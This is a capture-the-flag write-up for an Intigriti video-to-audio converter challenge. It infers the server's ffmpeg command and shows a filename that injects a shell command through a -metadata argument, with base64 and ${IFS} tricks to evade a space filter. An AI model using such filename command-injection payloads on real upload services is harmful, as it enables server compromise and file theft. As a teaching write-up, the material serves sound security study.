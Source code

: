 Video to Audio converter: https://challenge-0723.intigriti.io/challenge

+ When we upload a mp4 file, it returns a .wav file
+ checking the metadata of the file, we can see something like this: Software: Lavf58.20.100
+ Note: FFmpeg also includes other tools: … libavformat (Lavf), an audio/video container mux and demux library
+ Muxing/Demuxing basically means joining/splitting signals apart– like splitting apart the audio from a video file.
+ If the server is indeed passing our file to ffmpeg on the command line, the command being run is probably something like

`ffmpeg -i <our file> -vn -acodec copy extracted_audio.wav`
+ we can cat our flag but redirect it into extracted_audio.wav.
+ the command was likely something like:
`ffmpeg -i <our filename> -vn -acodec copy /somefolder/folder/extracted_audio.wav`
What if our injection made ffmpeg write the flag into extracted_audio.wav
+  if we take a look at the ffmpeg documentation, we can see a -metadata tag.
```
-metadata[:metadata_specifier] key=value (output,per-metadata)
Set a metadata key/value pair.

An optional metadata_specifier may be given to set metadata on streams, chapters or programs. See -map_metadata documentation for details.

This option overrides metadata set with -map_metadata. It is also possible to delete metadata by using an empty value.

For example, for setting the title in the output file:

ffmpeg -i in.avi -metadata title="my title" out.flv
To set the language of the first audio stream:

ffmpeg -i INPUT -metadata:s:a:0 language=eng OUTPUT
```
+ We'll follow their example and try to set the title of extracted_audio.wav to the contents of /flag.txt. We'll send this filename:

`sample.mp4 -metadata title=$(cat /flag.txt).mp4`
To hopefully produce this executed command:

`ffmpeg -i sample.mp4 -metadata title=$(cat /flag.txt).mp4 -vn -acodec copy /somefolder/folder/extracted_audio.wav`
In our actual payload, we'll base64 encode the cat /flag.txt part and replace any spaces with ${IFS} to ensure we don't have to deal with the filter. This gives us a final payload of:

`sample-mp4-file-small.mp4${IFS}-metadata${IFS}title=$(eval${IFS}$(echo${IFS}Y2F0IC9mbGFnLnR4dA==|base64${IFS}-d)).mp4`
and we get the flag.
